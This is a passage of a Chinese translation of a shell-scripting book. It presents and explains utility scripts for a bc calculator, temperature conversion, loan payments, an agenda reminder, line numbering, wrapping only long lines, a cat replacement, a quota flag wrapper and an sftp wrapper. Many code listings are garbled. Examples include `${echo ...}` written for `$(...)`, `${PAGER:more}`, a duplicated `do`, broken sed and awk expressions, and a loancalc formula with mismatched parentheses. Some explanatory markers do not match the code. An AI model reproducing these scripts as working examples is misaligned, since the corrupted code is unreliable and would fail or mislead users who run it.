- `a ^ b` 指数：a 的 b 次方
- `s(x)` x 的正弦，x 为弧度
- `c(x)` x 的余弦，x 为弧度
- `a(x)` x 的反正切，x 为弧度
- `l(x)` x 的自然对数
- `e(x)` e 的 x 次方
- `j(n,x)` x 的 n 阶整数贝塞尔函数
- `scale N` 显示 N 位小数（默认 = 2）

```text
calc> 54354 ^ 3
160581137553864
calc> quit
$
```

Listing 3-7: Testing the calc shell script

代码清单 3-7：测试 `calc` shell 脚本

> **警告（WARNING）** 浮点数计算即使对人类来说很简单，在计算机上也可能很棘手。不幸的是，`bc` 命令会以意想不到的方式揭示其中的一些缺陷。例如，在 `bc` 中设置 `scale=0` 并输入 `7 % 3`。现在尝试用 `scale=4` 再试一次。这将产生 `.0001`，这显然是不正确的。

### 改造脚本（Hacking the Script）

只要是你能在命令行 `bc` 中完成的操作，都可以在这个脚本中完成，但要注意，`calc.sh` 没有行与行之间的记忆或状态保留。这意味着，如果你愿意，可以在帮助系统中添加更多数学函数。例如，变量 `obase` 和 `ibase` 可以让你指定输入和输出的数字基数，但由于没有逐行记忆，你必须修改 `scriptbc`（第 34 页的脚本 #9），或者学会将设置和方程式全部写在同一行中输入。

## #24 温度转换（Converting Temperatures）

代码清单 3-8 中的脚本是本书首次使用较为复杂的数学运算，它可以将任何温度在华氏度（Fahrenheit）、摄氏度（Celsius）和开尔文（Kelvin）单位之间进行转换。它采用了与第 34 页脚本 #9 相同的技巧，即将方程式通过管道传递给 `bc`。

### 代码（The Code）

```bash
#!/bin/bash

# converttemp--Temperature conversion script that lets the user enter
# a temperature in Fahrenheit, Celsius, or Kelvin and receive the
# equivalent temperature in the other two units as the output

if [ $# -eq 0 ]; then
    cat << EOF >&2
Usage: $0 temperature[F|C|K]
where the suffix:
    F    indicates input is in Fahrenheit (default)
    C    indicates input is in Celsius
    K    indicates input is in Kelvin

EOF
    exit 1
fi

unit="$(echo $1|sed -e 's/[^[:alpha:]]*//g' | tr '[:lower:]' '[:upper:]' )"
temp="$(echo $1|sed -e 's/[^[:digit:].-]*//g')"

case ${unit:=F}
    in
    F ) # Fahrenheit to Celsius formula: Tc = ( F - 32 ) / 1.8
        farn="$temp"
        cels="$(echo "scale=2;(${farn} - 32) / 1.8" | bc)"
        kelv="$(echo "scale=2;${cels} + 273.15" | bc)"
        ;;

    C ) # Celsius to Fahrenheit formula: Tf = (9/5)*Tc+32
        cels=$temp
```

```bash
kelv="${echo "scale=2;\$cels + 273.15" | bc}"
  farn="${echo "scale=2;(1.8 * \$cels) + 32" | bc}"
  ;;

  K ) # Celsius = Kelvin - 273.15, then use Celsius -> Fahrenheit formula
  kelv=\$temp
  cels="${echo "scale=2; \$kelv - 273.15" | bc}"
  farn="${echo "scale=2;(1.8 * \$cels) + 32" | bc}"
  ;;

  *) 
  echo "Given temperature unit is not supported"
  exit 1
esac

echo "Fahrenheit = \$farn"
echo "Celsius    = \$cels"
echo "Kelvin     = \$kelv"

exit 0
```

代码清单 3-8：`convertatemp` shell 脚本

#### 工作原理

到本书目前为止，脚本的大部分内容可能已经很清楚了，但让我们仔细看看执行所有工作的数学计算和正则表达式。先说“数学”，尽管大多数学龄儿童无疑并不喜欢听到这句话！以下是将华氏度转换为摄氏度的公式：


将其转换为可以喂给`bc`并求解的序列后，它看起来就像 ➊ 中的代码。反向转换（摄氏度到华氏度）在 ➌。该脚本还将温度从摄氏度转换为开尔文 ➋。这个脚本证明了使用助记变量名的一个理由：它让代码变得更容易阅读和调试。

这里其他有趣的片段是正则表达式，其中最显眼的是 ❹ 处的那个。如果你能理清`sed`的替换逻辑，我们所做的事情其实非常简单。替换总是看起来像`s/old/new/`；这里的旧模式（old pattern）是零个或多个`-`的出现，后面跟着任何一组数字（记得`[:digit:]`是 ANSI 字符集中表示任何数字的表示法，而`*`匹配前一个模式的零次或多次出现）。然后新模式（new pattern）就是我们想要替换旧模式的内容，在这种情况下它简单地是`//`，表示空模式；当你只想删除旧模式时，这个模式非常有用。这个替换有效地移除了所有数字，因此像`-31f`这样的输入会变成一个简单的`f`，从而告诉我们单位类型。最后，`tr`命令将所有内容规范化为大写，例如`-31f`变成了`F`。

另一个`sed`表达式则相反 Ⓜ：它使用`^`运算符来否定对`[:digit:]`类中任何字符的匹配，从而删除任何非数字内容。（大多数语言使用`!`作为否定。）这为我们提供了最终使用相应方程进行转换的数值。

### 运行脚本

这个脚本有一个非常直观的输入格式，尽管对于 Unix 命令来说这相当不寻常。输入是以数字值形式输入的，带有可选的后缀来指示输入的温度单位；如果没有给出后缀，代码则假设单位是华氏度。

要查看 0° 华氏度对应的摄氏度和开尔文值，请输入`0F`。要查看 100° 开尔文对应的华氏度和摄氏度，请使用`100K`。要获取 100° 摄氏度的开尔文和华氏度，请输入`100C`。

你将在第 190 页的脚本 #60 中再次看到这种单字母后缀的方法，该脚本用于转换货币价值。

### 运行结果

代码清单 3-9 展示了多种不同温度的转换。

```text
$ converttemp 212
Fahrenheit = 212
    Celsius = 100.00
    Kelvin = 373.15
$ converttemp 100C
Fahrenheit = 212.00
    Celsius = 100
    Kelvin = 373.15
$ converttemp 100K
Fahrenheit = -279.67
    Celsius = -173.15
    Kelvin = 100
```

代码清单 3-9：使用几种转换测试`converttemp` shell 脚本

### 改造脚本

你可以添加几个输入标志，以便一次仅为一种转换生成简洁的输出。例如，类似`converttemp -c 100F`的命令可以仅输出 100° 华氏度对应的摄氏度值。这种方法也将帮助你在其他脚本中使用转换后的值。

## #25 计算贷款还款额

用户可能处理的另一个常见计算是贷款还款额的估算。代码清单 3-10 中的脚本可以帮助回答“我的奖金能干什么？”以及相关问题“我终于能买得起那辆新特斯拉了吗？”

虽然基于本金、利率和贷款期限计算还款额的公式有点复杂，但巧妙地使用 shell 变量可以驯服这个“数学怪兽”，使其变得出人意料地易于理解。

### 代码

```bash
#!/bin/bash

# loancalc--给定贷款本金、利率和
# 贷款期限（年），计算每次还款金额

# 公式为 M = P * ( J / (1 - (1 + J) ^ -N)),
# 其中 P = 本金, J = 月利率, N = 期限 (月)。

# 用户通常输入 P, I (年利率), 和 L (期限, 年)。

. library.sh    # 首先加载脚本库。

if [ $# -ne 3 ] ; then
    echo "Usage: $0 principal interest loan-duration-years" >&2
    exit 1
fi

P=$1 I=$2 L=$3
J="$(scriptbc -p 8 \$I / \( 12 \* 100 \) )"
N="$(($L * 12 ))"
M="$(scriptbc -p 8 \$P \* \( \$J / \( 1 + \$J\)^ -\$N\) \) "

# 现在对数值进行简单的美化：

dollars="$(echo \$M | cut -d. -f1)"
cents="$(echo \$M | cut -d. -f2 | cut -c1-2)"

cat << EOF
A \$L-year loan at \$I% interest with a principal amount of $(nicenumber \$P 1 )
results in a payment of \$$dollars.\$cents each month for the duration of
the loan (\$N payments).
EOF

exit 0
```

代码清单 3-10：`loancalc` shell 脚本

### 工作原理

探讨公式本身超出了本书的范围，但值得注意的是，复杂的数学公式可以直接在 shell 脚本中实现。

整个计算可以使用单个长输入流传递给`bc`来解决，因为该程序也支持变量。然而，能够在脚本内部操纵中间值的能力证明了这超出了`bc`命令本身的能力。而且，坦率地说，将方程分解为若干个中间方程 ① 也有利于调试。例如，以下代码将计算出的月还款额拆分为美元和美分，并确保其以正确格式的货币值呈现：

```bash
dollars="${echo $M | cut -d . -f1}"
cents="${echo $M | cut -d . -f2 | cut -c1-2}"
```

`cut`命令在这里非常有用 ②。这段代码的第二行抓取月还款额值中小数点之后的部分，然后砍掉第二个字符之后的所有内容。如果你更希望将此数字四舍五入到最近的一美分，只需在将美分截断为两位数字之前，在数值中加上 0.005。

另外请注意，在 ③ 处，本书早前提到的脚本库通过脚本中的`. library.sh`命令被整齐地包含进来，从而确保所有函数（就本脚本而言，是第 1 章中的`nicenumber()`函数）都可以被脚本访问。

### 运行脚本

这个极简脚本需要三个参数：贷款金额、利率和贷款期限（以年为单位）。

### 运行结果

假设你一直在关注新款特斯拉 Model S，并且想知道如果你买这辆车，每期还款额是多少。Model S 的起售价大约为 69,900 美元，目前的汽车贷款利率为 4.75%。假设你目前的旧车价值约 25,000 美元，且你可以以此价格折价置换，那么你需要融资的差额为 44,900 美元。如果你还没有改变主意，你可能想看看四年期和五年期汽车贷款在总还款额上的区别——使用此脚本可以轻松完成，如代码清单 3-11 所示。

```text
$ loancalc 44900 4.75 4
A 4-year loan at 4.75% interest with a principal amount of 44,900 results in a payment of $1028.93 each month for the duration of the loan (48 payments).
$ loancalc 44900 4.75 5
A 5-year loan at 4.75% interest with a principal amount of 44,900 results in a payment of $842.18 each month for the duration of the loan (60 payments).
```

代码清单 3-11：测试`loancalc` shell 脚本

如果你能负担得起四年期贷款较高的月还款额，汽车将更快还清，且你的总还款额（月还款额乘以还款次数）将显著减少。要计算确切的节省金额，我们可以使用第 82 页脚本 #23 中的交互式计算器，如下所示：

```text
$ calc `(842.18 * 60) - (1028.93 * 48)`
1142.16
```

这看起来是一笔值得的节省：1,142.16 美元可以买一台很棒的笔记本电脑！

### 改造脚本

如果用户没有提供任何参数，这个脚本确实需要一种方式来提示输入每个字段。一个更有用的版本是允许用户在四个参数（本金、利率、还款次数和月还款额）中指定*任意*三个，然后自动求解第四个值。这样，如果你知道你每月最多只能承担 500 美元的还款，且 6% 利率的汽车贷款最长期限为 5 年，你就可以确定你能借到的最大本金金额。你可以通过实现允许用户传递所需值的标志（flags）来完成此计算。

## #26 事件跟踪

这实际上是一对脚本，它们共同实现了一个简单的日历程序，类似于第 80 页脚本 #22 中的提醒工具。第一个脚本`addagenda`（见代码清单 3-12）允许你指定一个重复事件（每周事件指定星期几，每年事件指定日期和月份）或一次性事件（指定日期、月份和年份）。所有日期在验证后，将与一行事件描述一起保存在主目录下的`agenda`文件中。第二个脚本`agenda`（见代码清单 3-13）检查所有已知事件，以显示当前日期安排了哪些事件。

这种工具对于记住生日和周年纪念日特别有用。如果你难以记住事件，这个便捷的脚本可以为你省去很多烦恼！

### 代码

```bash
#!/bin/bash

# addagenda--提示用户为 agenda 脚本添加新事件

agendafile="$HOME/.agenda"

isDayName()
{
    # 如果一切正常则返回 0，出错则返回 1。
```

```bash
case $(echo $1 | tr '[[:upper:]]' '[[:lower:]]')' in
    sun*|mon*|tue*|wed*|thu*|fri*|sat*) retval=0 ;;
    * ) retval=1 ;;
esac
return $retval
}
```

```bash
isMonthName()
{
    case $(echo $1 | tr '[[:upper:]]' '[[:lower:]]')' in
        jan*|feb*|mar*|apr*|may|jun*)	return 0
        jul*|aug*|sep*|oct*|nov*|dec*)	return 0
        * ) return 1
    esac
}
```

### `normalize()`

```bash
{ 
    # Return string with first char uppercase, next two lowercase.
    /bin/echo -n $1 | cut -c1 | tr '[[:lower:]]' '[[:upper:]]'
    echo $1 | cut -c2-3 | tr '[[:upper:]]' '[[:lower:]]'
}
```

```bash
if [ ! -w $HOME ] ; then
    echo "$0: cannot write in your home directory ($HOME)" >&2
    exit 1
fi
```

```bash
echo "Agenda: The Unix Reminder Service"
/bin/echo -n "Date of event (day month, day month year, or dayname): "
read word1 word2 word3 junk
```

```bash
if isDayName $word1 ; then
    if [ ! -z "$word2" ] ; then
        echo "Bad dayname format: just specify the day name by itself." >&2
        exit 1
    fi
    date="${normalize $word1}"
else
    if [ -z "$word2" ] ; then
        echo "Bad dayname format: unknown day name specified" >&2
        exit 1
    fi

    if [ ! -z "${word1|sed 's/[[:digit:]]//g'}" ] ; then
        echo "Bad date format: please specify day first, by day number" >&2
        exit 1
    fi

    if [ "$word1" -lt 1 -o "$word1" -gt 31 ] ; then
        echo "Bad date format: day number can only be in range 1-31" >&2
        exit 1
    fi

    if [ ! isMonthName $word2 ] ; then
        echo "Bad date format: unknown month name specified." >&2
        exit 1
    fi

    word2="${normalize $word2}"

    if [ -z "$word3" ] ; then
        date="$word1$word2"
    else
        if [ ! -z "${echo $word3|sed 's/[[:digit:]]//g')" ] ; then
            echo "Bad date format: third field should be year." >&2
            exit 1
        elif [ $word3 -lt 2000 -o $word3 -gt 2500 ] ; then
            echo "Bad date format: year value should be 2000-2500" >&2
            exit 1
        fi
        date="$word1$word2$word3"
    fi
fi
```

```bash
/bin/echo -n "One-line description: "
read description

# Ready to write to data file

echo "${echo $date|sed 's/ //g')}$description" >> $agendafile

exit 0
```

**Listing 3-12: addagenda shell 脚本**

第二个脚本（Listing 3-13）较短，但使用频率更高。

```bash
#!/bin/sh

# agenda--扫描用户的 .agenda 文件，查看是否有
# 与当前日期或次日匹配的条目

agendafile="$HOME/.agenda"

checkDate()
{
    # 创建可能匹配今天的默认值。
    weekday=$1  day=$2  month=$3  year=$4
    format1="$weekday"  format2="$day$month"  format3="$day$month$year"

    # 遍历文件并比较日期...

    IFS="|"    # read 命令将自然地在 IFS 处进行分割。

    echo "On the agenda for today:"

    while read date description ; do
      if [ "$date" = "$format1" -o "$date" = "$format2" -o \
          "$date" = "$format3" ]
      then
        echo " $description"
      fi
    done < $agendafile
}

if [ ! -e $agendafile ] ; then
  echo "$0: You don't seem to have an .agenda file. " >&2
  echo "To remedy this, please use 'addagenda' to add events" >&2
  exit 1
fi

# 现在获取今天的日期...
eval $(date '+%weekday=%"%a" month=%"%b" day=%"%e" year=%"%G"')
day=$(echo $day|sed 's/ ^/ /g') # 移除可能的前导空格。

checkDate $weekday $day $month $year

exit 0
```

**Listing 3-13: agenda shell 脚本，它是 Listing 3-12 中 addagenda 脚本的配套脚本**

### 工作原理

`addagenda`和`agenda`脚本支持三种类型的重复事件：每周事件（“每个星期三”）、每年事件（“每年 8 月 5 日”）和一次性事件（“2017 年 1 月 1 日”）。当条目被添加到`agenda`文件时，指定的日期会被标准化和压缩，例如 3 August 变成 3Aug，Thursday 变成 Thu。这是通过`addagenda`中的`normalize`函数实现的 ❶。

该函数将输入的任何值截断为三个字符，确保第一个字符大写，第二和第三个字符小写。这种格式与`date`命令输出的标准缩写日期和月份名称值相匹配，这对于`agenda`脚本的正确运行至关重要。`addagenda`脚本的其余部分没有特别复杂的操作；大部分代码用于针对错误数据格式的错误测试。

最后，在 ❷ 处，它将现在标准化的记录数据保存到隐藏文件中。错误检查代码与实际功能代码的比例在编写良好的程序中非常典型：在输入时清理数据，这样你就能在后续应用程序中自信地对其格式做出假设。


`agenda` 脚本通过将当前日期转换为三种可能的日期字符串格式（日期名称、日期+月份、以及日期+月份+年份）来检查事件 ❸。然后将这些日期字符串与`.agenda`数据文件中的每一行进行比较。如果匹配，则向用户显示该事件。

这对脚本中最酷的技巧可能是如何使用`eval`将四个所需的日期值分别赋值给变量。

```bash
eval ${date "+weekday=\
```

虽然可以逐个提取值（例如，`weekday="${date "+%a") "`），但在极少数情况下，如果在四次调用`date`的过程中日期正好跨天，这种方法可能会失败，因此更倾向于简洁的一次性调用。而且，这样做很酷。

由于`date`返回的日期数字可能带有前导零或前导空格（两者均不需要），因此下一行代码在继续执行前，如果存在这些字符，会将其从值中删除。快去看看它是如何实现的吧！

### 运行脚本

`addagenda`脚本会提示用户输入新事件的日期。然后，如果接受该日期格式，脚本将提示输入该事件的一行描述。

配套的`agenda`脚本没有参数，调用时会生成一份当前日期计划的所有事件列表。

### 运行结果

为了看看这对脚本是如何工作的，让我们按照 Listing 3-14 所示，向数据库中添加一些新事件。

```text
$ addagenda
Agenda: The Unix Reminder Service
Date of event (day mon, day month year, or dayname): 31 October
One-line description: Halloween
$ addagenda
Agenda: The Unix Reminder Service
Date of event (day mon, day month year, or dayname): 30 March
One-line description: Penultimate day of March
$ addagenda
Agenda: The Unix Reminder Service
Date of event (day mon, day month year, or dayname): Sunday
One-line description: sleep late (hopefully)
$ addagenda
Agenda: The Unix Reminder Service
Date of event (day mon, day month year, or dayname): march 30 17
Bad date format: please specify day first, by day number
$ addagenda
Agenda: The Unix Reminder Service
Date of event (day mon, day month year, or dayname): 30 march 2017
One-line description: Check in with Steve about dinner
```

**Listing 3-14：测试`addagenda`脚本并添加多个议程项**

现在，`agenda`脚本可以快速便捷地提醒今天将发生什么，详见 Listing 3-15。

```text
$ agenda
On the agenda for today:
Penultimate day of March
sleep late (hopefully)
Check in with Steve about dinner
```

**Listing 3-15：使用`agenda`脚本查看今天的议程项**

请注意，它匹配了格式为`dayname`、`day+month`和`day+month+year`的条目。为了完整性，Listing 3-16 显示了相关的`.agenda`文件，其中包含几个额外的条目：

```text
$ cat ~/.agenda
14Feb|Valentine's Day
25Dec|Christmas
3Aug|Dave's birthday
4Jul|Independence Day (USA)
31Oct|Halloween
30Mar|Penultimate day of March
Sun|sleep late (hopefully)
30Mar2017|Check in with Steve about dinner
```

**Listing 3-16：存储议程项的`.agenda`文件的原始内容**

### 脚本改进

这个脚本实际上只是触及了这个复杂且有趣的话题的皮毛。例如，如果能让它查看未来几天的日程就太好了；这可以通过在`agenda`脚本中进行一些日期计算来实现。如果你有 GNU `date`命令，日期计算非常简单。如果你没有，那么仅在 Shell 中实现日期计算需要一个复杂的脚本。我们将在本书后面详细探讨日期计算，特别是第 330 页的脚本 #99、第 332 页的脚本 #100 以及第 335 页的脚本 #101。

另一个（更简单的）改进是：当当前日期没有匹配项时，让`agenda`输出`Nothing scheduled for today`，而不是比较粗糙的`On the agenda for today:`后面跟着空白。

此脚本还可用于 Unix 机器，以发送关于备份计划、公司假期和员工生日等事件的全系统提醒。首先，让每个用户机器上的`agenda`脚本额外检查一个共享的只读`.agenda`文件。然后，在每个用户的`.login`或类似的登录调用文件中添加对`agenda`脚本的调用。

> **注意**：令人惊讶的是，`date`的实现方式在不同的 Unix 和 Linux 系统之间有所不同。因此，如果你尝试使用自己的`date`命令执行更复杂的操作而失败了，请务必检查 man 手册以了解你的系统支持和不支持的功能。

## 4 调整 UNIX

局外人可能会认为 Unix 在许多不同系统上都提供了一种良好且统一的命令行体验，这得益于它们对 POSIX 标准的遵守。但任何使用过不止一个 Unix 系统的人都知道，在这些宽泛的参数范围内，它们之间存在多么大的差异。例如，你很难找到一个没有将`ls`作为标准命令的 Unix 或 Linux 机器，但你的版本支持`--color`标志吗？你的 Bourne Shell 版本支持变量切片（如`${var:0:2}`）吗？

也许 Shell 脚本最价值的用途之一就是调整你所使用的特定版本的 Unix，使其更像其他系统。虽然大多数现代 GNU 工具在非 Linux 的 Unix 系统上运行良好（例如，你可以用较新的 GNU `tar`替换笨拙的旧`tar`），但通常调整 Unix 所涉及的系统更新不需要如此剧烈，而且可以避免在受支持的系统中添加新二进制文件所带来的潜在问题。相反，可以使用 Shell 脚本将常用标志映射到本地的等效标志，利用 Unix 的核心能力为现有命令创建更智能的版本，甚至解决某些功能长期缺失的问题。

### #27 显示带有行号的文件

有几种为显示的文件添加行号的方法，其中很多非常简洁。例如，这里有一个使用`awk`的解决方案：

```bash
awk '{ print NR ": " $0 }' < inputfile
```

在某些 Unix 实现中，`cat`命令具有`-n`标志；在另一些实现中，`more`（或`less`，或`pg`）分页器有一个标志用于指定每行输出都应编号。但在某些 Unix 版本中，这些方法都行不通，在这种情况下，代码清单 4-1 中的简单脚本可以完成这项工作。

#### 代码

```bash
#!/bin/bash

# numberlines--cat -n 等命令的一个简单替代方案

for filename in "$@"
do
    linecount="1"
    while IFS="\n" read line
    do
        echo "${linecount}: $line"
        linecount="$(( ${linecount} + 1 ))"
    done < $filename
done
exit 0
```

代码清单 4-1：`numberlines`脚本

#### 工作原理

这个程序的主循环有一个技巧：它看起来像一个普通的`while`循环，但关键部分实际上是由`< $filename` ❸ 完成的。事实证明，每个主要的块结构都充当自己的虚拟子 Shell，因此这种文件重定向不仅有效，而且是让循环逐行迭代`$filename`内容的一种简单方法。将其与 ❶ 处的`read`语句相结合——这是一个将每一行逐次加载到`line`变量中的内部循环——然后就可以轻松地在行内容前加上行号进行输出，并递增`linecount`变量 ❷。

#### 运行脚本

你可以向此脚本输入任意数量的文件名。不过，你不能通过管道向其喂入输入，但这并不难修复，只需在没有给出启动参数时调用一个`cat`序列即可。

#### 运行结果

代码清单 4-2 显示了使用`numberlines`脚本显示带有行号的文件。

```text
$ numberlines alice.txt
1: Alice was beginning to get very tired of sitting by her sister on the
2: bank, and of having nothing to do: once or twice she had peeped into the
3: book her sister was reading, but it had no pictures or conversations in
4: it, 'and what is the use of a book,' thought Alice 'without pictures or
5: conversations?'
6:
7: So she was considering in her own mind (as well as she could, for the
8: hot day made her feel very sleepy and stupid), whether the pleasure
9: of making a daisy-chain would be worth the trouble of getting up and
10: picking the daisies, when suddenly a white Rabbit with pink eyes ran
11: close by her.
```

代码清单 4-2：在《爱丽丝梦游仙境》的摘录上测试`numberlines`脚本

#### 改进脚本

一旦你得到了一个带有行号的文件，你可以像这样反转文件中所有行的顺序：

```bash
cat -n filename | sort -rn | cut -c8-
```

在支持`cat`的`-n`标志的系统上，这个方法很有效。这在什么情况下有用？一个明显的情况是在按“从新到旧”的顺序显示日志文件时。

### #28 仅对长行进行换行

`fmt`命令及其 Shell 脚本等效项（第 53 页的脚本 #14）的一个局限性是，无论是否有意义，它们都会对其遇到的每一行进行换行和填充。这可能会搞乱电子邮件（例如，对你的`.signature`进行换行是不好的），以及任何行折行至关重要的输入文件格式。

如果你有一份文档，其中你只想对长行进行换行，而保持其他内容原样，该怎么办？使用 Unix 用户可用的默认命令集，只有一种方法可以实现：在编辑器中显式地遍历每一行，将长行单独交给`fmt`处理。（在`vi`中，你可以将光标移到相关行并使用`!$fmt`来实现）。

代码清单 4-3 中的脚本自动化了这项任务，它利用了 Shell 的`${#varname}`结构，该结构返回存储在变量`varname`中的数据内容的长度。

#### 代码

```bash
#!/bin/bash
# toolong--仅将输入流中长度超过指定长度的行交给 fmt 命令

width=72

if [ ! -r "$1" ] ; then
    echo "Cannot read file $1" >&2
    echo "Usage: $0 filename" >&2
    exit 1
fi

while read input
do
    if [ ${#input} -gt $width ] ; then
        echo "$input" | fmt
    else
        echo "$input"
    fi
done < $1

exit 0
```

代码清单 4-3：`toolong`脚本

#### 工作原理

请注意，文件是通过与循环末尾相关联的简单`< $1` ❷ 喂给`while`循环的，然后可以通过`read input` ❶ 读取每一行来进行分析，它将文件的每一行逐行分配给`input`变量。

如果你的 Shell 没有`${#var}`表示法，你可以使用超级有用的“字数统计”命令`wc`来模拟其行为：

```bash
varlength="$(echo "$var" | wc -c)"
```

然而，`wc`有一个讨厌的习惯，即在输出前添加空格，以便在输出列表中使数值对齐。为了避开这个麻烦的问题，需要进行轻微修改，让最终的管道步骤仅允许数字通过，如下所示：

```bash
varlength="$(echo "$var" | wc -c | sed 's/[^[:digit:]]//g')"
```

#### 运行脚本

此脚本恰好接受一个文件名作为输入，如代码清单 4-4 所示。

#### 运行结果

```text
$ toolong ragged.txt
So she sat on, with closed eyes, and half believed herself in
Wonderland, though she knew that she had but to open them again, and
all would change to dull reality--the grass would be only rustling
in the wind, and the pool rippling to the waving of the reeds--the
rattling teacups would change to tinkling sheep-bells, and the
Queen's shrill cries to the voice of the shepherd boy--and the
sneeze
of the baby, the shriek of the Gryphon, and all the other queer
noises, would change (she knew) to the confused clamour of the busy
farm-yard--while the lowing of the cattle in the distance would
take the place of the Mock Turtle's heavy sobs.
```

代码清单 4-4：测试`toolong`脚本

请注意，与标准调用`fmt`不同，`toolong`在可能的情况下保留了行折行，因此在输入文件中单独占一行的单词`sneeze`在输出中也单独占一行。

### #29 显示带有附加信息的文件

许多最常用的 Unix 和 Linux 命令最初是为缓慢、几乎没有交互的输出环境设计的（我们讨论过 Unix 是一个古老的操作系统，对吧？），因此提供的输出和交互性极低。`cat`就是一个例子：当用于查看短文件时，它没有提供多少有用的输出。如果能获得更多关于文件的信息就太好了，那么让我们来实现它！代码清单 4-5 详细介绍了`showfile`命令，它是`cat`的一个替代方案。

#### 代码

```bash
#!/bin/bash
# showfile--显示文件内容，包括额外的有用信息

width=72

for input
do
lines="$(wc -l < $input | sed 's/ //g')"
chars="$(wc -c < $input | sed 's/ //g')"
owner="$(ls -ld $input | awk '{$3}')"
```

```bash
echo "----------------------------------------------------------------------"
echo "File $input ($lines lines, $chars characters, owned by $owner):"
echo "----------------------------------------------------------------------"
while read line
do
do
    if [ ${#line} -gt $width ] ; then
        echo "$line" | fmt | sed -e '/^1s/^/ /' -e '2,$s/^/+/ ' /
    else
        echo " $line"
    fi
done < $input

echo "----------------------------------------------------------------------"
```

```bash
done | ${PAGER:more}
```

```bash
exit 0
```

代码清单 4-5：`showfile`脚本

#### 工作原理

为了能够同时逐行读取输入并添加页眉页脚信息，该脚本使用了一个便捷的 shell 技巧：在脚本末尾，它通过代码片段`done < $input` ❶ 将输入重定向到`while`循环。然而，这个脚本中最复杂的元素可能是针对超过指定长度的行而调用的`sed`命令：


```bash
echo "$line" | fmt | sed -e '/^1s/^/ /' -e '2,$s/^/+/ ' /
```

超过最大允许长度的行会使用`fmt`进行换行（或者使用其 shell 脚本替代品，即第 53 页的脚本 #14）。为了在视觉上区分哪些行是延续行，哪些行是原样保留的，超长行的第一行输出具有通常的两个空格缩进，但随后的行则以前缀加号和一个空格开头。最后，将输出通过管道传递给`${PAGER:more}`，使用系统变量`$PAGER`设置的分页程序显示文件，如果该变量未设置，则使用`more`程序 ❷。

#### 运行脚本

你可以通过在调用程序时指定一个或多个文件名来运行`showfile`，如代码清单 4-6 所示。

#### 运行结果

```
$ showfile ragged.txt

File ragged.txt (7 lines, 639 characters, owned by taylor):
```

So she sat on, with closed eyes, and half believed herself in Wonderland, though she knew that had but to open them again, and all would change to dull reality--the grass would be only rustling + in the wind, and the pool rippling to the waving of the reeds--the rattling teacups would change to tinkling sheep-bells, and the Queen's shrill cries to the voice of the shepherd boy--and the sneeze of the baby, the shriek of the Gryphon, and all the other queer + noises, would change (she knew) to the confused clamour of the busy + farm-yard--while the lowing of the cattle in the distance would + take the place of the Mock Turtle's heavy sobs.

代码清单 4-6：*展示`showfile`脚本的运行效果*

### #30 使用`quota`模拟 GNU 风格的标志

各种 Unix 和 Linux 系统之间命令标志的不一致是一个持久的问题，这给在主要发行版之间切换的用户带来了很多麻烦，特别是商业 Unix 系统（如 SunOS/Solaris, HP-UX 等）与开源 Linux 系统之间。证明这一问题的其中一个命令就是`quota`，它在某些 Unix 系统上支持全词标志（full-word flags），但在其他系统上仅接受单字母标志。

一个简洁的 shell 脚本（见代码清单 4-7）通过将指定的任何全词标志映射到等效的单字母替代方案来解决这个问题。

#### 代码

```bash
#!/bin/bash
# newquota--一个支持 GNU 风格全词标志的 quota 前端

# quota 有三个可能的标志：-g, -v, 和 -q，但此脚本
# 同样允许使用 '--group', '--verbose', 和 '--quiet'。

flags=""
realquota="$(which quota)"

while [ $# -gt 0 ]
do
    case $1
    in
        --help) echo "Usage: $0 [--group --verbose --quiet -gvq]" >&2
                exit 1 ;;
        --group)  flags="$flags -g"; shift ;;
        --verbose) flags="$flags -v"; shift ;;
        --quiet)  flags="$flags -q"; shift ;;
        -)        shift; break ;;
        *)        break; # 退出 'while' 循环！
    esac
done

exec $realquota $flags "$@"
```

代码清单 4-7：`newquota`脚本

#### 工作原理

这个脚本的核心其实就是一个`while`语句，它遍历传递给脚本的每一个参数，识别出任何匹配的全词标志，并将相应的单字母标志添加到`flags`变量中。完成后，它只需调用原始的`quota`程序，并根据需要添加用户指定的标志。

#### 运行脚本

有几种方法可以将这种封装脚本集成到你的系统中。最显而易见的方法是将此脚本重命名为`quota`，然后将其放置在本地目录中（例如`/usr/local/bin`），并确保用户的默认`PATH`在查看标准 Linux 二进制发行目录（`/bin`和`/usr/bin`）之前先查看该目录。另一种方法是添加系统级别别名（aliases），这样用户输入`quota`时实际上调用的是`newquota`脚本。（一些 Linux 发行版自带管理系统别名的工具，例如 Debian 的 alternatives 系统。）然而，最后一种策略可能存在风险，如果用户在自己的 shell 脚本中调用带有新标志的`quota`：如果这些脚本不使用用户的交互式登录 shell，它们可能看不到指定的别名，最终会调用基础的`quota`命令而不是`newquota`。

#### 运行结果

代码清单 4-8 详细展示了使用`--verbose`和`--quiet`参数运行`newquota`的情况。

```
$ newquota --verbose
Disk quotas for user dtint (uid 24810):
Filesystem usage quota limit grace files quota limit grace
/usr 338262 614400 675840 10703 120000 126000

$ newquota --quiet
```

代码清单 4-8：测试`newquota`脚本

`--quiet`模式仅在用户超过配额时才输出内容。你可以从最后一个结果中看到它工作正常，因为我们没有超过配额。呼！

### #31 让`sftp`看起来更像`ftp`

文件传输协议`ftp`程序的安全版本包含在`ssh`（Secure Shell 软件包）中，但对于从陈旧的`ftp`客户端切换过来的用户来说，它的界面可能有点令人困惑。基本问题在于，`ftp`是通过`ftp remotehost`调用的，然后它会提示输入账户和密码信息。相比之下，`sftp`要求在命令行上提供账户和远程主机，如果仅指定主机，它将无法正常（或按预期）工作。

为了解决这个问题，代码清单 4-9 中详细介绍的简单封装脚本允许用户像调用`ftp`程序那样调用`mysftp`，并被提示输入必要的字段。

#### 代码

```bash
#!/bin/bash

# mysftp--让 sftp 的启动方式更像 ftp

/bin/echo -n "User account: "
read account

if [ -z $account ] ; then
    exit 0;    # 假设用户改变了主意
fi

if [ -z "$1" ] ; then
    /bin/echo -n "Remote host: "
    read host
    if [ -z $host ] ; then
        exit 0
    fi
else
    host=$1
fi

# 最后切换到 sftp。这里的 -C 标志开启了压缩。

exec sftp -C $account@$host
```

代码清单 4-9：`mysftp`脚本，一个更友好的`sftp`版本

#### 工作原理

这个脚本中有一个值得提及的技巧。事实上我们在之前的脚本中也这样做过，只是之前没有重点强调：最后一行是一个`exec`调用 ❶。它的作用是用指定的应用程序替换当前运行的 shell。因为你知道在调用`sftp`命令之后没有其他事情要做，所以这种结束脚本的方法比让 shell 挂起并在单独的子 shell 中等待`sftp`完成要高效得多（如果我们只是直接调用`sftp`，就会发生后者的情况）。

#### 运行脚本

